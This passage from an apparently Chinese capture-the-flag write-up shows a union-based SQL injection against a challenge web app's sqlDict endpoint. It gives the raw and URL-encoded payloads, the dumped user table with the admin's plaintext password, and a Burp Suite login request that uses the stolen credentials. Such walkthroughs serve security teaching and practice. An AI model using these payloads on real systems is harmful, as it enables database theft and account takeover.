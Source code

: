 分析知，myapp数据库里面只有一个表

## 0x03 查询myapp数据库中user表的所有列

`mysql#' union select group_concat(column_name) from information_schema.columns where table_schema="myapp"#`

`http://d06cd6b2-9dd6-4a93-8ad9-13d91a89ca04.node3.buuoj.cn/common/test/sqlDict?dbName=mysql%23%27%20union%20select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema%3D%22myapp%22%23`


得到：
```
"tableDescribe":"id,name,pwd",
"tableName":"user"
```


## 0x04 查询myapp数据库user表，列id,name,pwd

`使用函数concat_ws() 指定参数之间的分隔符,第一个参数是其它参数的分隔符。`

`myapp#' union select concat_ws(",",id,name,pwd) from user#`

`http://d06cd6b2-9dd6-4a93-8ad9-13d91a89ca04.node3.buuoj.cn/common/test/sqlDict?dbName=myapp%23%27%20union%20select%20CONCAT_WS(%22%2C%22%2Cid%2Cname%2Cpwd)%20from%20user%23`

得到：
```
"tableDescribe":"1,admin,admin@Rrrr_ctf_asde",
```

账号：admin

密码：admin@Rrrr_ctf_asde


## 0x05 登陆账号，返回token认证信息

`账户相关 : User Controller `

```
post /common/user/current   获取当前用户信息

post /common/user/login     登录

```

### Burpsuite Request

```
POST /common/user/login HTTP/1.1
Host: d06cd6b2-9dd6-4a93-8ad9-13d91a89ca04.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
Referer: http://d06cd6b2-9dd6-4a93-8ad9-13d91a89ca04.node3.buuoj.cn/swagger-ui.html
Content-Length: 65
X-Forwarded-For: 127.0.0.1
Connection: close

{
  "password": "admin@Rrrr_ctf_asde",
  "username": "admin"
}
```